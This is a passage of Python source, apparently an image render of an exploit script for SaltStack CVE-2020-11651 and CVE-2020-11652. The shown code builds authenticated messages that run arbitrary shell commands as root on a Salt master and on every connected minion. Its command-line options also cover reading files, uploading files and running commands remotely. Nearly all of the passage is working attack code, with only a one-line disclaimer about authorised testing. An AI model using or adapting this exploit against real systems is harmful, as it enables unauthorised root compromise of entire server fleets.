 ```python
        },
        'jid': jid,
    }

    try:
        rets = channel.send(msg, timeout=3)
    except Exception as e:
        print('[-] Failed to submit job')
        return

    if rets.get('jid'):
        print('[+] Successfully scheduled job: {}'.format(rets['jid']))

def pwn_exec_all(channel, root_key, cmd, master_ip, jid):
    print("[+] Attemping to execute '{}' on all minions connected to {}".format(cmd, master_ip))
    sys.stdout.flush()

    msg = {
        'key': root_key,
        'cmd': '_send_pub',
        'fun': 'cmd.run',
        'user': 'root',
        'arg': [ "/bin/sh -c '{}'".format(cmd) ],
        'tgt': '*',
        'tgt_type': 'glob',
        'ret': '',
        'jid': jid
    }

    try:
        rets = channel.send(msg, timeout=3)
    except Exception as e:
        print('[-] Failed to submit job')
        return
    finally:
        if rets == None:
            print('[+] Successfully submitted job to all minions.')
        else:
            print('[-] Failed to submit job')


def main():
    parser = argparse.ArgumentParser(description='Saltstack exploit for CVE-2020-11651 and CVE-2020-11652')
    parser.add_argument('--master', '-m', dest='master_ip', default='127.0.0.1')
    parser.add_argument('--port', '-p', dest='master_port', default='4506')
    parser.add_argument('--force', '-f', dest='force', default=False, action='store_false')
    parser.add_argument('--debug', '-d', dest='debug', default=False, action='store_true')
    parser.add_argument('--run-checks', '-c', dest='run_checks', default=False, action='store_true')
    parser.add_argument('--read', '-r', dest='read_file')
    parser.add_argument('--upload-src', dest='upload_src')
    parser.add_argument('--upload-dest', dest='upload_dest')
    parser.add_argument('--exec', dest='exec', help='Run a command on the master')
    parser.add_argument('--exec-all', dest='exec_all', help='Run a command on all minions')
    args = parser.parse_args()

    print("[!] Please only use this script to verify you have correctly patched systems you have permission to access. Hit ^C to abort.")
    time.sleep(1)

    # Both src and destination are required for uploads
```
